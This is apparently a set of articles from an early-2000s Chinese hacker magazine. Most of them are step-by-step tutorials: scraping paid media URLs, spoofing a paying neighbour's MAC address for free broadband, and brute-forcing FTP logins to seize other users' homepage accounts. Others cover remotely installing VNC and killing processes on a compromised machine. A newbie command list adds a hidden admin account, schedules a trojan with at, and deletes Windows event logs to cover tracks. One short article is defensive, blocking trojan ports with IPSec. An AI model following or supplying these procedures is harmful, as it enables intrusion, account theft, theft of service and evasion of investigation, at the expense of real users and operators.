我本以为下载铃声的过程也会像下载图片一样简单，但事实却给了我一个否定的答案。我打开下载铃声的页面，马上就意识到用相同的方法根本就行不通，毕竟铃声和图片不同。但我打开下载铃声的页面，看到的都是带有链接的歌名。点击某个歌名会弹出一个小窗口，它会自动播放相应的铃声，这就是铃声试听的过程。开始时，我想用 Windows 自带的录音机把铃声录下来，但很快我就否定了这个想法。第一，试听的铃声是循环播放的，根本听不出应该在哪里结束。第二，效果不好，有杂音。第三，格式不同，录音机生成的是 WAV 文件，而我的西门子手机的铃声是 MID 文件。由 WAV 文件转化成 MID 文件还要保持音色不变，在我看来几乎不太可能。

那怎么办呢？认输，绝对不行！我想起了我学过的 HTML 语言。我打开下载铃声页面的源代码，发现每个铃声试听的链接都是一个 JAVA 脚本：`<A href="javascript:listen(***)">`。单击这种链接便会出现一个没有工具栏、没有地址栏的小窗口，如图2所示。


图2

我想如果能看到这个页面的源代码就好了。对呀，我想起 IE 的一个特性：记录访问过的页面路径。很好！打开一个新的 IE 窗口，键入 `http://sms.***.com`，这是某站点手机服务的公用路径，因为大多数的站点都是用 PHP 编写的，所以 IE 的地址栏会出现一个下拉框，里面有很多刚刚访问过的路径，如图3所示。


图3

慢慢找，这里总有一个是我要找的，就是那个没有工具栏、地址栏的小窗口中曾显示的页面。找到后，按下“查看源代码”，从中找到铃声音乐的路径，如图4所示。


图4

在源代码中我们可以找到以下的 JAVA 脚本：

```javascript
<SCRIPT language=JavaScript>
var browsername = navigator.appName;
var gettype = browsername;
if (gettype == 'Netscape')
  document.write('<embed src="http://sms.***.com/ring/mc_film/***.mid" autostart=true WIDTH=196 HEIGHT=49 REPEAT=TRUE>')
else
  document.write('<BGSOUND SRC="http://sms.***.com/ring/mc_film/***.mid" autostart=true loop=infinite>')
</SCRIPT>
```

没有错，`http://sms.***.com/ring/mc_film/***.mid` 这条路径指向的是一个 MID 文件。接下来用网络蚂蚁把它下载下来，文件只有十几K，很快就下载好了。再把这个 MID 文件复制到手机存放铃声的文件夹中。成了！从手机中可以看到这个网站上的文件，而且也能用。

通过以上的方法就可以免费从网上下载自己喜欢的图片和铃声，不论多少个都不用担心，直到手机放不下了为止。这两种方法都不是什么高深的技术，我不知道这算不算是漏洞，但我真的做到了。

如果你的手机不是西门子 6688，你可以去下载相应的软件，再加一条数据线就行了，下表是各品牌手机的应用软件下载地址。

| 品牌 | 软件名称 | 版本 | 软件性质 | 软件大小 |
|---|---|---|---|---|
| NOKIA | Logomanager | 1.2.7、1.25D汉化 | 免费 | 533k |
| 下载地址 | http://www8.pconline.com.cn/download/download.phtml?id=92785 |  |  |  |
|  | http://www8.pconline.com.cn/download/download.phtml?id=87310 |  |  |  |
| ERICSSON | Myanimation | 3.001 | 免费 | 282k |
| 下载地址 | http://www8.pconline.com.cn/download/download.phtml?id=37956 |  |  |  |
| ERICSSON | Mypicture | R2E build 130 | 免费 | 1.15m |
| 下载地址 | http://uyan.sonyericssonmobile.com/cn/em_download/T68/MypicturesR2E.exe |  |  |  |
| SIEMENS | 手机工作室 | 1.84 | 免费 | 163k |
| 下载地址 | http://www8.pconline.com.cn/download/download.phtml?id=91028 |  |  |  |
| SAMSUNG | MelodyManager | V1.1 | 免费 | 1.8m |
| 下载地址 | http://www.digitsoul.com/download/down.asp?id=414 |  |  |  |

以后很多天，我一直很得意我发现的免费下载的方法，尤其是下载铃声的方法。虽然不是什么很高级的技术，但比起下载图片来讲还是有些技术的。我总觉得这种方法不会只局限于下载铃声，它肯定还有别的用途。真的有一天，我用这种方法下载了别的东西。

前一段时间，周杰伦出了新的专辑《八度空间》，我很想听，D版 CD 虽然很便宜，但我还是觉得不合算。我喜欢下载，毕竟我是资源共享的坚决拥护者。但可能是专辑刚出来或者正版之类的什么，我在网上找了好半天也没有找到哪家提供 MP3 下载的地方，试听的倒是不少，但我不能一边听歌一边上网吧！没办法了，还是选了一个去看看。

这个音乐站点还不错，页面很漂亮，歌也很新，可能都是试听，没有提供下载。浏览了一段时间以后，我发现这个站点歌曲试听的工作流程很熟悉，几乎和下载手机铃声的一样，单击歌名出现小窗口……用我已经熟练掌握的下载方法，成功地下载了一首歌，与下载铃声不同的是，这次我要找的文件是 Real 格式的，下载所用的时间要比下载铃声长一些，其他的步骤完全一样。

> **相关提示**

另外，还有一种省时省力的路径查找方法。源代码是由记事本打开的，在页面代码很多时，找一个我们需要的路径是有些困难的。我们可以利用“查找”的功能，查找我们想下载的文件后缀：下载手机铃声时去找 `.MID`，下载歌曲就去找 `.RM`、`.MP3` 或 `.WAV`。一般我们会在一段源代码文件中找到两、三个这样的路径，分别试试，总有一个是我们要找的。

其实我们还可以利用这种方法下载很多的东西。比如，某站点的页面上有一个很炫的 Flash，但没有提供下载。平时，你会很郁闷，很遗憾，但现在你就可以用这种方法，很简单地就把它收到自己的电脑中了。

通过这件事，我真正地领悟到：遇到困难不要躲，如果你勇敢地面对它，很多的难题就会迎刃而解了。毕竟困难就像弹簧嘛！


# 伤心草主人

## 给小区宽带中的 MAC 地址盗用

随着宽带小区的逐渐兴起，小区居民通过宽带接入互联网已经成为一种趋势。网民们见面的问候语也从“上网了吗？”变成了“上宽带了吗？”。与传统的电话拨号、通过 ISDN 等方式上网相比，宽带上网的诱惑是显而易见的。不但上网速度几千倍或上百倍地提高，而且只需交纳并不算高的月租费，即可实现 24 小时在线，而不必像传统电话线上网那样斤斤计较电话费；而且在宽带上还可以享受到像 VOD 点播、远程教育、远程医疗等多种增值服务。小区居民的生活也因为有了宽带而变得更加丰富多彩。

然而，宽带在带给人们便捷和快乐的同时，随之而来的还有许多安全隐患，例如：黑客的入侵、信息的泄漏等等；同时，因为普通用户欠缺电脑和网络知识，使得略懂黑客知识的人就可以轻易侵入，甚至一个简单的命令就能进入用户的电脑（本刊前几期作过介绍，即 IPC$ 连接，读者可自行参考，本文不再赘述）。本文主要探讨的是小区宽带中的 MAC 地址盗用问题。

> “考虑到采用包月制收费方式，我们采用了基于 MAC 地址划分 VLAN 的方式对用户进行管理，要求准确登记每个用户的网络适配器地址，然后在交换机中指定，这样可以杜绝一般用户对网络的盗用。”

对于直接用双绞线或光纤接入的用户，主要通过两种方式防止非法用户的进入：第一种是基于 MAC 地址的安全策略，主要用于同一虚拟网内部的安全防护，通过双绞线或光纤，直接接入城域宽带 IP 网的用户计算机内部插有一块以太网卡，每块网卡拥有一个唯一的 MAC 地址，通过接入交换机的 MAC 地址过滤功能的设置，可以允许带有合法 MAC 地址的数据包通过交换机，禁止所有带有非法 MAC 地址的数据包通过，以达到安全防护的目的。第二种是基于 IP 地址的安全策略，主要用于不同虚拟网之间的安全防护，利用核心交换机所提供的第三层交换功能，设置访问控制列表 ACL，对某一虚拟网而言，只允许合法用户进行访问，禁止非法用户的入侵。

也就是说，只要拥有合法的 MAC 地址，就可以通过接入端的验证而接入网络了；即使我们电脑上网卡的 MAC 地址不是合法的，通过一些方法修改之后，也能变成合法的地址——这样一来，我们岂不是能够免费上网了？！

嗯嗯……这可真是好事啊！虽然现在有的小区宽带的包月费并不贵，不到一百元，但毕竟是一笔不小的开支，要是能免费上网……嘿嘿……（此处删去 N 字）。但是究竟有没有可行性呢？跟我来，让我们来试试吧！

我们必须得到一个合法的网卡 MAC 地址，这是我们成功的前提条件。如何获得呢？当然没有人会告诉你——除非是你的亲戚朋友。“黑客”的一项重要原则就是自己动手。就让我们自己来寻找吧！

首先要知道自己所在的网段，因为一个合法的 MAC 地址也只能在指定的网段里使用——至于我自己嘛，呵呵，打原来曾经接入过小区宽带（当然是合法的了），不过后来没有再续费，宽带运营商就把网停了（其实就是封了我的 MAC 地址），所以我对自己这个网段还是比较熟悉的。

下一步就是找本网段上了网的电脑。打开 SuperScan，填入本网段的起始 IP 地址，开始扫描，不一会儿，结果出来了，如图 1 所示：

就这么几台啊？没关系，只要找到一个能用的就行；你也可以在一个上网用户多的时间段扫描。看到图 1 显示的没有？有两台开着 139 端口的电脑，我们要找的就是这样的。下面就该正式展开获取网上 MAC 地址的行动了！


图 1

我使用的是 MAC2001 增强版（使用前可以把电脑时间改成 2001 年以前，因为启动后会出现到期的提示，基本不影响使用），启动时会要求你选择网卡，启动后界面如图 2 所示：


图 2

依次点击“工具”→“探测 MAC”，出现如图 3 所示窗口：


图 3

点选第二项“通过 IP”，在右面的框中输入刚才我们扫描到的开着 139 端口电脑的 IP 地址，点击“开始”，不一会儿，它的 MAC 就出现在“MAC 地址”下方的框中了。


这一步操作需要关闭本机的防火墙，否则可能探测不到！现在一个合法的网卡 MAC 地址就到手了。

以上介绍的是获取单个 MAC 地址的一种方法；如果要获取一段 IP 地址上的 MAC，推荐使用 MAC 扫描器 2.0，下载地址：http://www.skycn.com/soft/8978.html。该软件是我的一个好朋友用 DELPHI 编写的，是一个绿色软件，功能不错（可不是给朋友作广告啊！），运行界面如图 4 所示：


图 4

> **注意** 使用方法很简单，在此不多说了，大家可以参阅帮助文件，另外需要说明的是，该软件是共享软件，注册用户可以进行网上升级。

合法的 MAC 到手了，把自己的 MAC 改了吧！复制这个地址，返回 MAC2001 增强版的主界面，在“输入要修改的目标 MAC 地址”一栏中粘贴，依次点击“工具”→“修改”，修改成功，这时会要求重启机器。

> **注意** 其实不用那么麻烦，只要把“网上邻居”中的“本地连接”先禁用再启用即可生效。

下面就很简单了，打开“网上邻居”中的“本地连接”窗口，然后打开“Internet 协议（TCP/IP）”的属性窗口，设置好自己的 IP 地址、子网掩码、网关和 DNS 服务器，打开浏览器看看是不是能上网了？

另外，根据我的经验，只要网卡的 MAC 地址是合法的，那么 IP 地址可以随便设置（但是必须是本网段的 IP）。可见，宽带运营商并没有将 MAC 地址和 IP 地址绑定，所以，完全可以把自己电脑的 MAC 地址和 IP 都换成另外一个合法用户的，也就是说：在你的小区宽带网中可以存在两个 MAC 地址和 IP 地址完全相同的用户！

以上是我在所在的宽带小区中的试验过程，其中难免存在错误和遗漏，望广大“黑大战”批评指正。

> **说明** 本文纯属探讨黑客技术，如因本文引起的一切纠纷或事件，概与本文作者无关。请大家谨慎对待。


ufo.sos

骇客技术普照天下以后，我丢了四个 QQ，一个 ICQ，一个信箱，不知骇客技术、精神的推广是利大还是弊大，经过推敲、揣测，则知如此地普及众生可以间接提高上网人群的安全意识，至少自己密码是不会太重复繁衍啦！

就在杀机四起的网吧，我时时担心木马、SNIFFER 一类的东东窥视我这个美少男，便自作聪明地将密码换成特殊符号：★★★★★★。这样很少有人会看出我的密码，键盘记录也只能记录“CRTL+C……LEFT MOUSE……CRTL+V”。某日登录邮箱，不小心多 CRTL+V 了几下，竟意料外地登录成功，这使我狐疑，不知数据库验证时对特殊符号敏感还是对连续字符敏感，便作了个小试验：

- EYOU 网站：我申请了信箱，密码为★★★★★★★★。登录：在密码框里输入 1—5 个★时提示密码错误，6—？个★时登录成功。
- 21CN 网站：我把信箱密码改为★★★★★★★★。登录：在密码框里输入 1—5 个★时提示密码错误，6—？个★时登录成功。

带着知识中的发散思维使我继续试验，这次我的矛头指向是否对连续单一字符的验证也有问题。

- EYOU 网站：我把密码改为 10 个“E”。登录：在密码框里输入 1—5 个“E”时提示密码错误，6—？个“E”时登录成功；
- 21CN 网站：信箱密码改成若干个单一字符（五个以上）。登录：在密码框里输入 1—5 个该字符时提示密码错误，6—？个该字符时登录成功。

虽然没什么太大的危害（很少会有人将自己的密码设成若干个单一字符），但觉得还是说出来好。由于我不是专搞数据库的，这方面没怎么学习，便将此事 E-MAIL 给 ** 网站管理员……两个月后，我的信箱空空如也。也许网管大人很忙（盲），日理万机，每天收到上百封邮件，没时间对这件小事情大做文章，或者根本没看到，可以理解！

加上特殊字符，登录成功，标题也发生了改变，如图 1 所示。接着我试着在 QQ 后加其它字符（数字除外），不能直接输入进去。如果是字母，可以在记事本中保存好，然后粘贴上去，登录成功，QQ 标题栏就变成如图 2 所示的那样了。


图 1

怎么样？不用什么 TRW2000 这般点改变量也可以改 QQ 标题了吧！见过如图 3 这样的 QQ 吗？很拽吧！其实是骗人的，上不了线。怎样得到它呢？它是在登录时发生的一个小错误。首先把自己的号码在本地机上注册一下，然后删掉腾讯目录中这个号码的目录，再运行 QQ 主程序，看到自己号码延征住，输入密码登录（不是过期时的密码），然后会弹出如图 4 提示框，点击“是”，开始验证，验证成功，返回，就会得到图 3。


图 2


图 4


图 3

其实这些都涉及到“验证”问题。邮箱密码单一连续字符的漏洞是数据库的验证问题，QQ 的也许就是软件本身的识别问题，因为在网络中是看不到你对 QQ 做了手脚，这些只能欺骗自己的眼睛，聊以自慰罢了！我偶尔会帮朋友老爷车时代的诺基亚 5110 乱拨时，发现拨打 1861********1861 也能打通，星号后的东东都可自动过滤掉，也许也是一种识别问题吧！

## 侵瓜黑客

# “变废为宝”

## 超级挖掘弃用的免费主页空间

——伤心稻草人

“曾经有一个美好的免费主页空间放在我面前，我没有珍惜，等我失去的时候我才后悔莫及，人世间最痛苦的事莫过于此。如果上天能够给我一个再来一次的机会，我会对那个免费主页空间说三个字：我要你。如果非要给这个免费主页空间加上一个限制，我希望是——100000M！”这是我真实的内心独白。

当年的网络江湖，遍地都是好东西，可以说是俯拾皆是：免费的邮箱、免费的主页空间、免费的……而且大都容量多多，还“加量不加价”！可惜，正如一位哲人所说：“越容易得到的就越不珍惜。”许多人申请了邮箱和主页空间之后，没用几次可能就束之高阁，忘得干干净净了。哪儿想到今天的网络一切都以收费为中心，再想要免费的好东西已经难上加难。免费邮箱还好说，好歹还有几处为人民服务的；免费的主页空间基本是找不到了，偶尔能找到几个国外的，可龟爬般满满的 E 文，头都发晕。对于我等菜鸟，甚至低调又想在网上安个家的网站来说，可谓雪上加霜，呜呜呜……

难道就没有办法了吗？非也！我们可以“变废为宝”，找到当年被废弃的免费主页空间“据为己有”。你也许会说，这样做是不是太不道德了，那毕竟是别人的。呵呵，不错，那确实是别人的，可是当你看到某个主页的最后更新时间是 1999 年某月某日，或者干脆显示的是“您在本站申请的个人主页空间已经开通，请及时上传您的主页。”的时候，你有什么感觉呢？何况我们既能本着 Hacker 的精神研究一下，又能充分利用闲置的网络资源，何乐而不为呢？

好，那就跟我来，一起寻找“失去的乐园”吧！

首先，我们要了解一下免费主页空间的基本道理。一般的主页空间其实都挂在 FTP 服务器上为注册用户开辟的一块空间，用户使用用户名和密码登录 FTP 服务器之后，就可以进行主页的上传和编辑了——看到这里你明白了没有？对了！只要我们知道了某个免费主页的用户名和密码，就可以成为它的主人了！道理很简单，那么我们怎么做呢？当然是探测到他们的用户名和登录密码了，这里要用到的是著名的国产黑客工具——流光 4.7。

启动流光，界面如图 1 所示：


图 1

在“FTP 主机”上点击，依次选择“编辑”→“添加”，出现如图 2 所示对话框。


图 2

这里需要填入要探测的主页空间的 FTP 地址，比如：www.xxx.net

> 注意：虽然它是 www 的形式，其实仍然是 FTP 服务器。

点击“确定”，www.xxx.net 就显示在“FTP 主机”下面了。然后再添加用户名，右键点击 www.xxx.net，依次选择“编辑”→“从列表添加”。

> 注意：如果你想探测特定用户的话就选择“添加”，然后手工输入用户名就可以了；而我们是“撒大网，多捞鱼”，当然要添加很多用户了。

选择用户名的“字典文件”，打开就行了。

> 注意：推荐使用“万能钥匙”来制作用户名字典。

如果只是进行简单探测，那么现在就可以了，流光内置了简单的密码字典，都是些很“弱智”的密码，例如“123456”什么的，或者干脆和用户名是一样的密码（不要笑，我就真找到两个这样的，呵呵）。如果觉得简单的密码不够用，那么你可以右键点击“解码字典或方案”，依次点击“编辑”→“添加”，选择密码文件就可以了。不过，如果用户名和密码字典包含的数量太多，探测的时间将会长得很惊人，那就看你的机器速度和网速怎么样了。为了节省时间，我们就用简单探测。

在“FTP 主机”前面的框中打上勾，然后依次点击流光主菜单里的“探测”→“简单模式探测”，就开始探测了。

运气还不错，经过一段时间耐心的等待，我们探测到了两个用户名和密码，呵呵，收获不小啊！探测结果如图 3 所示：


图 3

好了，用户名和密码我们都得到了，先去看一下他们的主页是什么样子吧！打开浏览器，往地址栏输入“www.用户名.net”，回车……天啊！真是浪费啊！显示的是“您在本站申请的个人主页空间已经开通，请及时上传您的主页。”我猜这位老兄从申请之后就没用过啊！再看看另外一个，也是一样！这么好的地方他们一点儿也不珍惜，呵呵，这下便宜我了。接下来干什么呢？当然是上传自己的主页了。使用“CuteFTP”或者国产的“网络传神”，一会儿的功夫，搞定！打开浏览器欣赏一下，那种爽的感觉真是让人难忘啊！

不过需要注意的是，一定记着要把密码改成自己的，还使用原来的密码怎么也不安全——谁知道有没有我们的同道中人啊！

改好之后，这个主页以后基本就是你的了，因为原来的主人这么长时间没用，早就忘记了，不会来找；万一他心血来潮想看看，一定会以为是时间太久没用，已经换了主人了。呵呵，美中不足的是用户名是没法改的，不过也不错了，凑合着用吧！

怎么样？还不赶紧去找找看有没有这样的闲置的免费主页空间。变废为宝，其乐无穷啊！

> 注意：本文纯属探索黑客技术，如因本文引起的一切纠纷或事件，概与本文作者无关，请大家谨慎对待。

## 完美新远程安装 VNC

小智

VNC 是 AT&T 公司的一款基于远程桌面的控制软件，与 pcAnywhere 一样，它在网络中使用非常广泛。VNC 能运行于 Linux、Solaris、Windows 9x/2000/NT 及 Macintosh 等系统中，默认端口为 5900，客户端主程序 vncviewer.exe，服务端主程序 winvnc.exe。

前段时间国内著名黑客小榕写了一篇远程安装 VNC 的文章，相信很多朋友都看过了，但真的要按小榕所说的办法去远程安装 VNC，对于我们这些菜鸟来说可有点难度。还好，最近笔者在网上找到了一款非常方便的远程安装 VNC 的工具 strcm-vnc。如果你还不会用，那就跟我来学吧！

- 将 strcm-vnc.zip 解压缩到任意目录，解压缩后我们可以看见里面包括 strcm 主程序及源码，VNC 服务端／客户端及配置文件。其中 strcm 是一个远程服务安装的软件，包含 C++ 源代码，可以自己修改，使用很方便。你几乎可以使用它安装任意一个基于服务的软件，并且可任意配置安装路径、服务名、服务描述、配置文件、注册码数值等信息，并且在远程安装结束后自动调用客户端连接。

- 我们首先需要建立一个管理员权限的 IPC$ 连接，如图 1 所示：


建立管道后，我们进入 strcm-vnc 的目录，双击 strcm.exe，出现主界面。在这里我们可以看到一些设置参数，在“Operation”下共有 6 个选项，意思分别是“查看”、“安装”、“卸载”、“选项”、“启动服务”、“停止服务”，这里我们选“Install”（安装），接着在“Remote Host Name or”中输入将要安装 VNC 的主机 IP 地址，再点击上面的“find”按钮，选择目录下的 vnc.rcm 主配置文件；单击打开。如图 2 所示：


- 进行远程安装。我们再单击“Execute”按钮，会出现一个认可协议页面，如图 3 所示：


勾选“I have read and accept the above licensing information”，然后单击“OK”，出现如图 4 所示页面。

我们在“password”中输入以后连接 VNC 的连接密码，如：“123456”，并在“confirm”中再输入一次。“File Options”下的“Destination”是在目的地址中的服务端文件存放目录，默认是 \\%computer%\admin$\system32\rc。然后将“install service”打上勾。下面的“configure service to start automatically”是启动自动服务的选项，最下面的对话框中分别是“服务描述”、“主程序名”、“服务名信息”，以上信息都可以使用默认值或按照你自己的需要修改。检查无误后单击“OK”，程序会开始进行拷贝服务端文件、建立远程服务、写入注册表信息、启动远程服务等工作。VNC 的远程安装速度是比较快的，一般两三分钟就能安装完毕。


- 进行远程连接。安装完成后，程序会自动调用客户端进行远程连接，首先会出现连接密码对话框，如图 5 所示：


# 入侵黑客


图6

我们要在这里输入在前面设置的连接密码“123456”，就可以看到远程桌面了，如图6所示：

以后如果需要连接，可以直接运行 VNC 客户端 vncviewer.exe 来进行远程连接。你也可以修改 vnc.rcm 文件来进行一系列的安装设置，也可以在连接前配置客户端设置，具体的大家可以摸索一下。

> **注意！！** 虽然 VNC 和终端服务类似，但终端服务连接上去是开了一个会话，而 VNC 则是和当前正在登录的那个用户共用同一个会话。这也就是说，你可以和当前登录的用户同时操作，他所做的一切你都可以看见，反之亦然。

# 完全手工查杀进程

python

现在很多木马都有杀进程的功能，这样大家用起来是不是感觉很方便呢？只要对方一中木马，木马马上自己杀掉对方的防火墙或是杀毒软件之类的进程，这样一来我们就可以更加放心地放马了！

但是现在仍然有很多很好的木马并没有查杀对方进程的功能，或是你在入侵成功后，会遇到一些碍手碍脚的程序。例如，一些记录应用程序调用状况的程序，很可能会记录一些你不想留下的脚印。怎么办？看来学会手工查杀对方进程是很有必要的了。

首先的条件是，你使用的操作系统要是 Win2000 才可以，而且对方的系统也要是 Win2000 或 NT 才可以，至于为什么，大家看过之后就会明白原因了。

在 Win2000 的光盘里，有一个 SUPPORT 文件夹，进入这个文件夹后，会发现有一个 TOOLS 文件夹。进入 TOOLS 文件夹，里面有一个 *.msi 文件，运行这个程序，它会带领你安装 Win2000 的附加工具。安装完成后，会发现自己的 C:\Program Files 下多了一个名为 Support Tools 的文件夹。打开看看，里面有很多文件。我们只用到 kill.exe 和 tlist.exe 这两个小程序。

首先先看一下基本使用方法，打开 cmd 命令行，键入：kill /?，会出现帮助信息，如图1所示：


图1

其实这些选项在一般情况下都用不到，我们只使用“kill pid”就可以。这里的“pid”是代表进程的进程号。接下来大家在 cmd 命令行里键入：tlist，如图2所示：


图2

啊啊，发现什么了？是不是看到很多文件，而且格式都是一行数字后跟一个应用程序的名字（一些应用程序后面会有注释的），知道 tlist 命令的作用了吧？它前面的数字就是前面提到的“pid”了。如果我们想要杀掉某个进程的话，只要使用命令“kill pid”就可以了，至于你要杀掉哪个进程，就由你自己决定了。OK！现在大家明白了这个原理，那么我们可以开始工作了。

假如你获得了对方的管理员密码，就可以用 IPC 连上去。然后，我们上传 kill.exe 和 tlist.exe 这两个程序到对方的 system32 文件夹里，再使用以下两种办法：

- 1. 我们可以利用 at 命令打开对方的 Telnet 服务，至于怎么取消对方的 NTLM 验证这里就不多说了。Telnet 上去后，就可以像使用自己的机器一样了，这时就可以先用“tlist”列出对方机器上的所有进程，然后再用“kill pid”杀掉一切会妨碍我们工作的程序。
- 2. 如果大家感觉自己的网速不太好的话，可以使用 at 命令来定时执行命令：
  `tlist > c:\tlist.txt`
  时间一到，我们就可以去下载 tlist.txt 这个文件。文件中会记录着和使用 tlist 命令相同的结果。OK，根据结果我们找到需要杀掉进程的“pid”，然后再用 at 命令在远程机上执行“kill pid”命令就可以了。

# 属于菜鸟的命令

傻白客

这篇文章的目的是为了解决菜鸟在看一些“经典教程”时遇到的疑问，主要是一些命令问题。很多朋友抱怨说命令太多记不过来，或命令的格式、参数太多！其实，刚刚开始学习 Hacker 知识，用多少记多少就可以了，主要是记牢！

### 一、net 命令（不会懂，轻微的脑上可晕可抄难行啊！）

如果你拥有某 IP 的“用户名”和“密码”，就可用 IPC$ 做连接。

我们假如得到的用户名是“small-hack”，密码是“123456”。假设对方 IP 为 127.0.0.1。

````
net use \\127.0.0.1\ipc$ "123456" /user:"small-hack"
````

````
net use \\127.0.0.1\ipc$ /delete
````

NET 命令还可以用来创建用户和超级用户，前提是你必须登录后才可以用。

创建一个用户名为“small-hack2”，密码为“lovehack”的用户。

````
net user small-hack2 lovehack /add
````

只要显示“命令成功”就 OK！接下来我们把他加入到 Administrator 超级用户组。

````
net localgroup Administrators small-hack2 /add
````

NET 还可以映射对方的磁盘，A:、B:、C:、D……随你便！下面是把对方的 C 盘映射成本地的 Z 盘。

````
net use z: \\127.0.0.1\c$
````

NET 也可以打开对方的 TELNET、FTP 等服务。

````
net start telnet
````

````
net user guest /active:yes
````

（将 Guest 用户激活）把一个用户的密码改掉，我们把“guest”的密码改为“lovechina”，其他用户也可以，只要有权限就行。

````
net user guest lovechina
````

（NET 命令够强大吧！）

### 二、上传、下载命令 get/put

````
get c:\nc.exe d:\
````

上传的文件是 nc.exe，定位于 C:\NT，下到对方 D:\。

````
put c:\nc.exe d:\
````

要把对方 C 盘下的 nc.exe 下载到你机子的 D 盘下。

### 三、at 命令（我称它为木马频道命令，够酷吧！）

一般入侵者入侵后都会留下后门，也就是种木马。当你把木马传上去了，怎么启动它呢？那么就需要用到 at 命令了。这里假设你已经登录该服务器，你首先要得到对方的时间。

````
net time \\127.0.0.1
````

将会返回一个时间，假设时间为 12:1，现在需要新建一个作业，其 ID=1。

````
at \\127.0.0.1 12:3 nc.exe
````

nc.exe 是一个木马名，前提是已把它上传到了对方服务器上。这条命令的意思就是说：服务器两分钟后将执行 nc.exe 这个木马。

### 四、nbtstat 命令（没什么特别的，但是认人很有用！）

如果你扫到一部 NT 的机子，端口 136 至 139 其中一个开了的话，就要用这个命令得到用户名了。现在网上很多 NT 的机子都开了这些端口。得到用户名后就可以猜解密码了，例如比较简单的密码，还有密码和用户名一样的，都试一下，不行就暴力破解。你可以练习一下，下面来分析得到的结果。

````
nbtstat -A ***.***.***.***
````

（“-A”一定要大写哦）

下面是得到的结果。

NetBIOS Remote Machine Name Table

| Name | Type | Status |
|---|---|---|
| PENTIUMII | <00> | UNIQUE |
| PENTIUMII | <20> | UNIQUE |
| ORAHOTOWN | <00> | GROUP |
| ORAHOTOWN | <1C> | GROUP |
| ORAHOTOWN | <1B> | UNIQUE |
| PENTIUMII | <03> | UNIQUE |
| Inet~Services | <1C> | GROUP |
| ISPENTIUMII | <00> | UNIQUE |
| ORAHOTOWN | <1B> | GROUP |
| ORAHOTOWN | <1D> | UNIQUE |
| __MSBROWSE__ | <01> | GROUP |

可能你不知道怎么看？大家可以看到“PENTIUMII <03> UNIQUE”这一串字符，只要这串字符中有 <03> 的话，那么它前面的就是用户名，这里的用户名是“PENTIUMII”。

## 五、DEL（是个挺好的清道夫）

现在要离开 127.0.0.1，当然要删除日志，你不想被捉吧！NT 的日志有这些：

````
del C:\winnt\system32\logfiles

del C:\winnt\system32\config\*.evt

del C:\winnt\system32\dtclog

del C:\winnt\system32\*.log

del C:\winnt\system32\*.txt

del C:\winnt\*.txt

del C:\winnt\*.log
````

只要删除这些就可以了。

有些系统 NT 安装在 D 盘或其它盘，就要把 C 改成其它盘。

## 扫描工具+IPSEC 把卫队搞定

康旭

本方法只适用于 Windows 2000/XP。首先黑客要进入你的电脑，必须有通道，也就是你的电脑必须有后门，也就是说他的木马必须打开你的某个端口，木马这个工具就是为黑客打开后门的。怎样发现自己是不是中了木马？杀毒软件可以查出木马的存在，但是一些编程高手能为木马脱壳以绕过杀毒软件的查杀。怎么办呢？首先用扫描器扫描一下自己的机子，如果中了木马会有相应的端口打开。下面是我自己扫描自己的结果，如下表示：

````
* + 127.0.0.1
    |— 23 [telnet] Telnet
    |— 25 [smtp] Simple Mail Transfer
    |— 80 [http] World Wide Web HTTP
    |— 110 [pop3] Post Office Protocol - Version 3
    |— 135 [epmap] DCE endpoint resolution
    |— 389 [ldap] Lightweight Directory Access Protocol
    |— 443 [https] https MCom
    |— 445 [microsoft-ds] Microsoft-DS
    |— 1002
    |— 1025 [blackjack] network blackjack
    |— 1028
    |— 1720 [h323hostcall] h323hostcall
    |— 3002 [exlm-agent] EXLM Agent
    |— 3003
    |— 3004
    |— 5000 [commplex-main] ?
````

写这篇文章的时候，我找了几个木马自己运行了一下，并且把 Telnet 的 23 端口打开了，这可是 Windows 自带的“木马”啊！哈哈，而且功能很强。

首先找到值得怀疑的危险端口，看看我的 23、1002、1028、3003、3004 是不是都很有嫌疑？23 端口就不用说了。

开放端口就是为黑客提供服务，这种服务可是被管理的服务。如同在那里发信付钱、人家给你理发一样。黑客就像客人一样，而你就是那个……虽然我现在的 Windows 为黑客提供了这种服务，但此服务必须通过网络才能连接到这种服务。经过网络必须经过我们的 TCP/IP 协议，我们可以由 TCP/IP 协议设置窗口把这些端口关掉。

首先，点击“开始”，在“运行”里输入“mmc”，弹出“控制台”窗口，选择“文件”→“添加/删除‘管理单元’”，点击“添加”，选择“IP 安全管理”。选择“本地计算机”，把“IP 安全管理”添加到控制台中。

现在新建一个管理策略。右击选择新建“IP 安全策略”，然后起个名字，我就叫它“木马防范策略”。不选择“激活默认响应”，点击下一步，完成。并且编辑属性（我没有使用向导，我个人不建议用），现在添加一条“IP 规则”，出现新规则属性的时候我们再添加一张新的“IP 筛选器列表”，我叫它“筛选木马端口”。

OK，现在我们的列表已经有了，但是列表里面还是空的。现在该是激动人心的时候了，我们一起来写列表。在右边点“添加”，在寻址栏的源地址选择“任何 IP 地址”，目标地址选择“我的 IP 地址”，因为对于黑客来说我们是目标，不必选择镜像。在协议栏选择“协议类型”，我拿 23 端口来举例，Telnet 利用的是 TCP 的 23 端口，在协议设定中选择类型为 TCP，然后从任意端口到此端口 23。

以同样的方法可以关闭其余的端口。

以此方法，我把其余的嫌疑端口添加到筛选器列表中，然后点击确定关闭筛选器列表。在新规则属性中选中刚刚新建的筛选木马端口列表。再选择筛选器操作，我们再添加一个筛选器操作，在安全措施下面选择“阻止”，在常规选项中为它起个“阻止操作”名。如图1所示：


下一步一定要选中“阻止操作”。在连接类型中选择“所有连接”，点击确定关闭新规则。然后关闭“木马防范策略”属性的对话框，现在我们回到了 MMC 的控制台。首先不激活新策略。我在另外的一台电脑上 Telnet 我现在的这台，做一个试验。哈哈，我也当一回“黑客”。如图2、图3所示：


这次登录成功了。刚才的努力不是白做了么？不会的，忙了那么半天不会白做的。

我们在木马策略防范上面点击右键，选择“指派”，应用我们刚才做的策略，再在那台电脑上面登录本机。如图4所示：


登录失败了，证明我的 23 端口已经被关闭了。怎么样？再来看看我的电脑现在还提供什么服务。如图5所示：


图5

大家看见没有？我的 23 端口还是开着的，这下大家满足了吧！黑客一定会奇怪，怎么搞的？

这种方法就如同一个正常营业的理发店，我们把他们的门堵上，则使他们继续提供服务，也是没有办法为门外面的客人服务了。

# 暴力破解网页表单工具——FORM KILLER

冯登州

